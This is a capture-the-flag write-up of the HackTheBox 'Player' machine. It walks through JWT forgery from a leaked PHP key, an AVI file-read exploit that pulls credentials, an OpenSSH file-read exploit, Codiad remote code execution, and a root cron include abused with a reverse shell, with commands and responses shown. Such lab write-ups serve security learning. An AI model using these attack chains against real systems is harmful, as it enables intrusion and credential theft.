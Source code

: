 # Player - HackTheBox
## Linux - Hard

### Nmap
We have SSH and HTTP open on ports 22 and 80.

### HTTP
There is virtual hosting. By fuzzing, we find the following sites:
- player.htb/launcher
- dev.player.htb
- staging.player.htb
- chat.player.htb

The first one redirects us sometimes to `http://player.htb/launcher/dee8dc8a47256c64630d803a4c40786c.php` which itself redirects us to `index.html`. We can find the file by going to `http://player.htb/launcher/dee8dc8a47256c64630d803a4c40786c.php~`:
```php
<?php
require 'vendor/autoload.php';

use \Firebase\JWT\JWT;

if(isset($_COOKIE["access"]))
{
    $key = '_S0_R@nd0m_P@ss_';
    $decoded = JWT::decode($_COOKIE["access"], base64_decode(strtr($key, '-_', '+/')), ['HS256']);
    if($decoded->access_code === "0E76658526655756207688271159624026011393")
    {
        header("Location: 7F2xxxxxxxxxxxxx/");
    }
    else
    {
        header("Location: index.html");
    }
}
else
{
    $token_payload = [
      'project' => 'PlayBuff',
      'access_code' => 'C0B137FE2D792459F26FF763CCE44574A5B5AB03'
    ];
    $key = '_S0_R@nd0m_P@ss_';
    $jwt = JWT::encode($token_payload, base64_decode(strtr($key, '-_', '+/')), 'HS256');
    $cookiename = 'access';
    setcookie('access',$jwt, time() + (86400 * 30), "/");
    header("Location: index.html");
}

?>
```
This allows us to get the JWT (using [jwt.io](jwt.io) for example): 
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJwcm9qZWN0IjoiUGxheUJ1ZmYiLCJhY2Nlc3NfY29kZSI6IjBFNzY2NTg1MjY2NTU3NTYyMDc2ODgyNzExNTk2MjQwMjYwMTEzOTMifQ.VXuTKqw__J4YgcgtOdNDgsLgrFjhN1_WwspYNf_FjyE
```
Then, using 
```bash
curl http://player.htb/launcher/dee8dc8a47256c64630d803a4c40786c.php -v -H "Cookie: access=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJwcm9qZWN0IjoiUGxheUJ1ZmYiLCJhY2Nlc3NfY29kZSI6IjBFNzY2NTg1MjY2NTU3NTYyMDc2ODgyNzExNTk2MjQwMjYwMTEzOTMifQ.VXuTKqw__J4YgcgtOdNDgsLgrFjhN1_WwspYNf_FjyE"
``` 
we get the response
```
< HTTP/1.1 302 Found
< Date: Fri, 09 Aug 2019 13:34:06 GMT
< Server: Apache/2.4.7 (Ubuntu)
< X-Powered-By: PHP/5.5.9-1ubuntu4.26
< Location: 7F2dcsSdZo6nj3SNMTQ1/
< Content-Length: 0
< Content-Type: text/html
```
Going to `player.htb/launcher/7F2dcsSdZo6nj3SNMTQ1/` we get an upload page that compresses `avi` files. Going to `https://hackerone.com/reports/237381`, we get an exploit to read files on the box. By looking at some files in `/var/www/staging`, we get the file `/var/www/backup/service_config` using the command 
```bash 
python gen.py file:///var/www/backup/service_config lol.avi
```
This file discloses creds: `telegen:d-bC|jC!2uepS/w`.

### SSH
These creds don't work on SSH port 22. However, re-running `nmap` on all ports, we see that SSH also runs on port 6686. These creds work for that port, but we are in a restricted shell. 

The OpenSSH version is vulnerable to an exploit (`39569.py` on searchsploit). This exploit gives us arbitrary file read for user `telegen`.

We can get `user.txt` this way.

By looking at `/var/www/staging/fix.php`, we get other creds: `peter:CQXpm\z)G5D#%S$y=`.

### Codiad
These creds allows us to get access to `dev.player.htb`, which is the `Codiad` platform. We have RCE on this platform through `https://github.com/WangYihang/Codiad-Remote-Code-Execute-Exploit`.

This gives us a shell as `www-data`.

### PrivEsc
We run `pspy64` on the box and see that root regularly runs `php /var/lib/playbuff/buff.php`:
```php
<?php
include("/var/www/html/launcher/dee8dc8a47256c64630d803a4c40786g.php");
class playBuff
{
--- snip ---
?>
```

The second line is the most important since we can write `/var/www/html/launcher/dee8dc8a47256c64630d803a4c40786g.php`. Putting a reverse shell there gives us a root shell.
